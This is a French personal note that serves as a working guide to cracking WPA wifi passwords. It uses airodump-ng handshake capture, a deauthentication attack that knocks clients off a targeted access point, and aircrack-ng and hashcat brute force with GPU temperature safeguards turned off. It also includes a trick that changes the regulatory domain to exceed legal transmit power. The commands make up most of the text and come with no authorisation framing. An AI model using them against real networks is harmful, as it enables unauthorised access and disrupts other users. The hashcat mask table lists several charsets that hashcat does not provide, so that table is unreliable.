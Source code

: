 ```yaml
---
id: wifi_crack
created_date: 16/02/2023
updated_date: 16/02/2023
type: note
---
```


#  wifi_crack
- **🏷️Tags** :  #02-2023 #wifi #crack #tools 

## 📝 Notes

### Mettre sa carte en mode monitor


```bash
sudo ifconfig wlan1 down
sudo iwconfig wlan1 mode monitor
sudo ifconfig wlan1 up
```

pour tester si sa carte est compatible utiliser la commande :


```bash
sudo aireplay-ng --test wlan1
```

### Faire un scan du réseaux 

- dans un premier temps taper la commande 

```bash
sudo airodump-ng wlan1
```

- récupérer le nom de l'interface réseaux qui vous intéresse
- ainsi que son BSSID et que son numéro de channel ( bien vérifier son type d' ENC ).
### lancer l'attaque
on souhaite ici récupérer le handshake et pour cela on va avoir besoin du BSSID et du channel.

```bash

sudo airodump-ng -c 6 --bssid 44:D4:54:ED:F9:60 --output-format pcap -w ~/Bureau wlan1

```

pour accélérer les choses on va lancer en même temps une attaque de Dauth contre la machine. ( sinon c'est gavé long ).

```bash
sudo aireplay-ng -0 20 -a E4:9E:12:89:FE:D4  wlan1
```

une fois que le handshake est obtenue et qu'une certaine quantité de requête aussi passer à l'étape suivante.

### crack et brutforce


```bash
aircrack-ng -a2 -b <BSSID> -w /chemi/du/dico.txt ./chemi/du/fichier/cap/enregistrer.cap

```

debrider carte alfa 


```bash
sudo ifconfig wlan1 down  
sudo iw reg set BZ  
sudo iwconfig wlan1 txpower 30  
sudo ifconfig wlan1 up  
iwconfig

```

### Conversion du format pour bruteForce

```bash
hcxpcapngtool -o capture.22000 capture.cap
```

une fois le fichier convertie en format 22000 lancer le brutforce avec [[Screen]]  et hashcat 

- pour digit:
```bash
hashcat -m 22000 capture.22000 -a 3 '?d?d?d?d?d?d?d?d'
```

- pour digit/uppercase/lowcase
  ```bash 
  hashcat -m 22000 capture.22000 -a 3 '?1?1?1?1?1?1?1?1' -1 ?d?l?u
  ```

- mode performance:
```bash
hashcat -m 22000 capture.22000 -a 3 '?1?1?1?1?1?1?1?1' -1 ?d?l?u --force --optimized-kernel-enable --workload-profile=4 --hwmon-disable

```

>[!Tip] Infos:
>- `--force` : force Hashcat à ignorer certains avertissements et à continuer l'exécution.
>- `--optimized-kernel-enable` : utilise des kernels optimisés pour accélérer le processus de craquage.
>- `--workload-profile=4` : définit le profil de charge de travail sur le niveau maximum (4). Les profils de charge de travail vont de 1 (léger) à 4 (lourd). Le niveau 4 maximise l'utilisation de la GPU, mais peut rendre le système moins réactif.
>- `--hwmon-disable`:  enlève le triger sur la temperature du device

#### Tableau des paramètres de hashcat 

| Mask Symbol | Description                          | Character Set          |
|-------------|--------------------------------------|------------------------|
| `?d`        | Digit                                | 0 1 2 3 4 5 6 7 8 9    |
| `?l`        | Lowercase letter                     | a b c d e f g h i j k l m n o p q r s t u v w x y z |
| `?u`        | Uppercase letter                     | A B C D E F G H I J K L M N O P Q R S T U V W X Y Z |
| `?s`        | Special symbol                       | ! " # $ % & ' ( ) * + , - . / : ; < = > ? @ [ \ ] ^ _ ` { | } ~ |
| `?a`        | All printable ASCII characters       | Digits, lowercase, uppercase, and special symbols |
| `?b`        | All 8-bit characters from ASCII      | 0x00 - 0xff           |
| `?h`        | Lowercase hexadecimal                | 0 1 2 3 4 5 6 7 8 9 a b c d e f |
| `?H`        | Uppercase hexadecimal                | 0 1 2 3 4 5 6 7 8 9 A B C D E F |
| `?D`        | Digits and special symbols           | 0 1 2 3 4 5 6 7 8 9 and special symbols |
| `?L`        | Lowercase letters and digits         | Lowercase letters and digits |
| `?U`        | Uppercase letters and digits         | Uppercase letters and digits |
| `?X`        | Lowercase and uppercase letters      | Lowercase and uppercase letters |
| `?Z`        | Uppercase letters and special symbols| Uppercase letters and special symbols |
| `?f`        | All printable characters excluding space | Digits, lowercase, uppercase, and special symbols (excluding space) |

### Examples
- Digits only, 8 characters long: `?d?d?d?d?d?d?d?d`
- Lowercase letters only, 6 characters long: `?l?l?l?l?l?l`
- Mix of lowercase letters and digits, 10 characters long: `?l?l?l?l?d?d?d?d?d?d`
- Printable ASCII characters, 12 characters long: `?a?a?a?a?a?a?a?a?a?a?a?a`

## Questions/Thoughts


## 🔗 Links
- 